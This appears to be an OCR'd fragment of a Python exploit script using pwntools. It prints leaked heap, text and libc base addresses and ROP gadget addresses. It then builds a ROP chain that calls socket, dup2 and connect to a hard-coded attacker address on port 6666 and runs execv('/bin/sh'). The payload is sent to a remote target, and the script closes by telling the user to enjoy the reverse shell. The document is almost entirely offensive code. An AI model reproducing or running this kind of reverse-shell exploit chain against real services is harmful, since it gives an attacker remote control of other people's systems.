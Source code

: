 ```python
    xchg_rdi_rax_ret_addr = xchg_rdi_rax_ret + text_base
    binsh_addr = binsh_off + heap_base
    sockaddr_addr = binsh_addr + 0x8
    
    
    print(f'heap base address: {hex(heap_base)}')
    print(f'text base address: {hex(text_base)}')
    print(f'libc base address: {hex(libc_base)}')
    print(f'dup2  address: {hex(dup2_addr)}')
    print(f'execve  address: {hex(execv_addr)}')
    print(f'ret gadget address: {hex(ret_addr)}')
    print(f'pop_rdi_gadget gadget address: {hex(pop_rdi_ret_addr)}')
    print(f'pop_rsi_gadget gadget address: {hex(pop_rsi_ret_addr)}')
    print(f'xchg_rdi_rax_ret gadget address: {hex(xchg_rdi_rax_ret_addr)}')
    print(f'pop_rax_gadget gadget address: {hex(pop_rax_ret_addr)}')
    print(f'pop_rbx_gadget gadget address: {hex(pop_rbx_ret_addr)}')
    print(f'pop_rcx_gadget gadget address: {hex(pop_rcx_ret_addr)}')
    print(f'pop_rdx_gadget gadget address: {hex(pop_rdx_ret_addr)}')
    print(f'binsh address: {hex(binsh_addr)}')
    
    # step 7: spawn a remote shell
    # fd = 6
    rop_chain = b'/bin/sh\x00'
    #struct sockaddr_in
    rop_chain += p64(0x010011ac0a1a0002) + p64(0x0000556b2b358120)
    
    rop_chain += p64(ret_addr) * 0x26c
    # int fd = socket(AF_INET, SOCK_STREAM, 0);
    rop_chain += p64(pop_rdi_ret_addr) + p64(AF_INET)
    rop_chain += p64(pop_rsi_ret_addr) + p64(SOCK_STREAM)
    rop_chain += p64(pop_rdx_ret_addr) + p64(0)
    rop_chain += p64(socket_addr)
    # dup2(7, 0)
    rop_chain += p64(pop_rdi_ret_addr) + p64(7)
    rop_chain += p64(pop_rsi_ret_addr) + p64(0)
    rop_chain += p64(dup2_addr)
    # dup2(7, 1)
    rop_chain += p64(pop_rdi_ret_addr) + p64(7)
    rop_chain += p64(pop_rsi_ret_addr) + p64(1)
    rop_chain += p64(dup2_addr)
    # dup2(7, 2)
    rop_chain += p64(pop_rdi_ret_addr) + p64(7)
    rop_chain += p64(pop_rsi_ret_addr) + p64(2)
    rop_chain += p64(dup2_addr)
    # connect(fd, (struct sockaddr *)&serv_addr, sizeof(serv_addr));
    rop_chain += p64(pop_rdi_ret_addr) + p64(7)
    rop_chain += p64(pop_rsi_ret_addr) + p64(sockaddr_addr)
    rop_chain += p64(pop_rdx_ret_addr) + p64(16)
    rop_chain += p64(connect_addr)
    # execv("/bin/sh", NULL)
    rop_chain += p64(pop_rdi_ret_addr) + p64(binsh_addr) 
    rop_chain += p64(pop_rsi_ret_addr) + p64(0)
    rop_chain += p64(execv_addr)
    rop_chain.rjust(0x900000, b'\x00')
    
    p = remote(ip, port, )
    packet = p32(0x2) + p32(0) + p32(0) + \
             p32(0x900000) + rop_chain + \
             p32(0) + b'a'*0x40
             
    p.sendline(packet)
    print("**** enjoy reverse shell on '$ nc -lvnp 6666'  ****")
```